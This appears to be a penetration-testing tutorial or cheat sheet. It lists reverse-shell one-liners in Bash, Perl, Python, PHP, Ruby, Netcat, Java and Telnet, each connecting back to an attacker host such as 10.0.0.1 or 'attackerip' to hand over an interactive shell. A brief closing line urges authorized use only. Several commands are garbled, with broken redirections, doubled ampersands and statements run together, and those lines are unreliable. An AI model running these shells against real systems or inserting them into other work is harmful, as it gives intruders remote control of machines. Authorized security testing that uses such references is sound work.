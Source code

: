 ## Introduction

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterward you’ll probably want an interactive shell. If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – although you can probably download a binary program if you are properly prepared. The examples shown are tailored to Unix-like systems. Some of the examples below should also work on Windows if you use substitute "`/bin/sh -i`" with "`cmd.exe`". Each of the methods below is aimed to be a one-liner that you can copy/paste. As such they’re quite short lines, but not very readable.

* * *

### BASH

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 18.04)

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Or

```bash
exec /bin/bash 0&0 2>&0
```

Or

```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or

```bash
exec 5<>/dev/tcp/attackerip/4444cat <&5 | while read line; do $line 2>&5 >&5; done
```

Or

```bash
while read line 0<&5; do $line 2>&5 >&5; done
```

* * *

### PERL

Here’s a short, feature-free version that depends on /bin/sh:

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Perl reverse shell that does not depend on /bin/sh:

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

If the target system is running Windows use the following one-liner:

```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

* * *

### PYTHON

This was tested under Linux / Python 2.7

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* * *

### PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on the most tested system. If it doesn't work, try 4, 5, 6…

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* * *

### RUBY

Short version that depends on /bin/sh:

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Longer Ruby reverse shell that does not depend on /bin/sh:

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

If the target system is running Windows use the following one-liner:

```bash
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* * *

### NETCAT

Netcat is rarely present on production systems and even if it is there are several versions of Netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

Others possible Netcat reverse shells, depending on the Netcat version and compilation flags:

```bash
nc -c /bin/sh attackerip 4444
```

Or

```bash
/bin/sh | nc attackerip 4444
```

Or

```bash
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

* * *

### JAVA

Always present when you need it, the "Java" language can also be a very good solution to establish a reverse shell.

```bash
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

* * *

### TELNET

Of course, you can also use Telnet as an alternative for Netcat:

```bash
rm -f /tmp/p; mknod /tmp/p p &&&& telnet attackerip 4444 0/tmp/p
```

Or

```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

* * *

## Conclusion

In this tutorial, we explored various methods for creating reverse shells during penetration tests. We covered examples in different scripting languages, including Bash, Perl, Python, PHP, Ruby, Netcat, Java, and even Telnet. These one-liners allow you to establish an interactive shell on the target system, even when adding new accounts or SSH keys isn’t feasible.

Remember to use these techniques responsibly and only in authorized scenarios. Always obtain proper permissions before attempting any penetration testing activities. Happy hacking!